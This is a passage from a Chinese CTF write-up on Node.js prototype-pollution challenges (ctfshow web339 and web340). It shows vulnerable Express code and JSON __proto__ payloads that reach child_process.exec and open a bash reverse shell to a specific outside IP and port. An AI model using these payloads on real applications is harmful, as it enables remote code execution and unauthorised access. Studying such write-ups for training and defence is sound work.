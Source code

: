 ```js
res.render('api', { query: Function(query)(query)});
```

这里的污染点可能存在匿名函数从而进行RCE

![](https://s2.loli.net/2022/01/14/b41mGrOyN2zIvTl.png)

![](https://s2.loli.net/2022/01/14/QyKVWdj3Ni4MEIm.png)



payload：

注意： `require` 可能不被识别，尝试把 require 改为 `global.process.mainModule.constructor._load`

```json
{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').exec('bash -c \"bash -i >& /dev/tcp/124.223.44.100/6666 0>&1\"')"}}
```



### web340 原型链污染++

```js
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  var flag='flag_here';
  var user = new function(){
    this.userinfo = new function(){
    this.isVIP = false;
    this.isAdmin = false;
    this.isAuthor = false;     
    };
  }
  utils.copy(user.userinfo,req.body);
  if(user.userinfo.isAdmin){
   res.end(flag);
  }else{
   return res.json({ret_code: 2, ret_msg: '登录失败'});  
  }
});
```

依旧有上题的 api.js ，可以反弹shell，但在login中，copy对象从user变成了user.userinfo，

只需要用proto向上跳两层即可

payload:

```json
{"__proto__":{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').exec('bash -c \"bash -i >& /dev/tcp/124.223.44.100/6666 0>&1\"')"}}}
```



### web341 ejs + rce
